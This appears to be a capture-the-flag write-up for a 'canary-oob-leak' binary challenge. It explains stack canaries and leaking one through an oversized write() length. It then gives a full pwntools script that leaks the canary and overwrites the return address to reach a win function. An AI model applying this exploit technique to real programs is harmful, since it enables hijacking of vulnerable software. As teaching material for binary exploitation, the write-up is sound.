

This is basic challenge where we leak canary so we can overflow stack and overwrite return address. (ret2win)
First we have to understand what is canary.
A **stack canary** is a security mechanism used in binary programs to detect and prevent stack-based buffer overflow attacks. It works by placing a small, random, and unpredictable integer on the stack just before the function's return address

To understand visually, it looks like this:


First 12 byte input is mine, 0xa8601ba427809700 is stack canary which we have to leak in leak_stack. Then using same stack canary we can create payload to overwrite return address, what we will do is find correct offset from input in vuln, write correct stack canary to its place so it is not overwritten and then overwrite return address.
Now question is, how can we leak stack canary?
It is easy, you already can see in binary, we can choose how much bytes we want to output in buffer, our "name?" input doesn't matter.
We input 80 to "bytes to echo?" because it is used in write() function in leak_stack, used to choose how many bytes to output. 80 is enough to leak stack canar. after we leak stack canary, in vuln function we can write:
```python
payload = b"A" * 72 + p64(canary) + b"A" * 8 + p64(context.binary.sym.win)
```

You can see all offsets after breaking your input and find offsets yourself looking at $rsp.

```python
from pwn import *

context.binary = ELF("./canary-oob-leak")

p = process("./canary-oob-leak")

p.sendafter(b"bytes to echo?\n", "80")

p.sendafter(b"name?", ("A").encode())

leak = p.recvn(87)
canary = u64(leak[79:])
print(hex(canary))

payload = b"A" * 72 + p64(canary) + b"A" * 8 + p64(context.binary.sym.win)

p.sendafter("message?\n", payload)

print(p.recvall().strip().decode())
```